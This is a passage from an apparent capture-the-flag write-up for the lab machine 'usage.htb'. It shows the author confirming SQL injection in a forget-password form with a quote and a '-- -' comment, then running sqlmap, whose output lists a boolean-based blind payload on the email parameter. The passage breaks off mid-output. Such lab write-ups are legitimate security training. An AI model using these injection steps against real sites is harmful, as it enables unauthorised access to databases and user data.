 I tried some sql injections, first with single quote `'` and got a server error.

![error](8.png)

This might indicate a sql injection vulnerability.

I added `-- -` which is a comment in mysql rendering the rest of the query useless and got this:

![sqli](9.png)

We confirmed a sql injection vulnerability, time to exploit it.

### SQL Map

We can use `sqlmap` with the following options

- `--form`: Use the `forget-password` form for testing
- `--batch`: To use default actions and not ask us every time.

```bash
$ sqlmap -u http://usage.htb/forget-password --form --batch                              
        ___                                                                                                                                                                                                                                 
       __H__
 ___ ___[,]_____ ___ ___  {1.8.3#stable}
|_ -| . [']     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not re
sponsible for any misuse or damage caused by this program

[*] starting @ 09:53:25 /2024-04-25/

[09:53:25] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('XSRF-TOKEN=eyJpdiI6IjU...IjoiIn0%3D;laravel_session=eyJpdiI6IkZ...IjoiIn0%3D'). Do you want to use those [Y/n] Y
[09:53:29] [INFO] searching for forms
[1/1] Form:
POST http://usage.htb/forget-password
POST data: _token=BkFj77qOM3Ty3BC4SNedU4WeOV18kFSPtAsX0BiW&email=
do you want to test this form? [Y/n/q] 
> Y
Edit POST data [default: _token=BkFj77qOM3Ty3BC4SNedU4WeOV18kFSPtAsX0BiW&email=] (Warning: blank fields detected): _token=BkFj77qOM3Ty3BC4SNedU4WeOV18kFSPtAsX0BiW&email=
do you want to fill blank fields with random values? [Y/n] Y
POST parameter '_token' appears to hold anti-CSRF token. Do you want sqlmap to automatically update it in further requests? [y/N] N
[09:53:32] [INFO] resuming back-end DBMS 'mysql' 
[09:53:32] [INFO] using '/home/kali/.local/share/sqlmap/output/results-04252024_0953am.csv' as the CSV results file in multiple targets mode
got a 302 redirect to 'http://usage.htb/forget-password'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: _token=mXkUU3V1Mzk5ir73XlvV72lwR2cJaPDkwFMTY5yD&email=test' AND 3072=(SELECT (CASE WHEN (3072=3072) THEN 3072 ELSE (SELECT 9560 UNION SELECT 6574) END))-- aPPR

    Type: time-based blind
```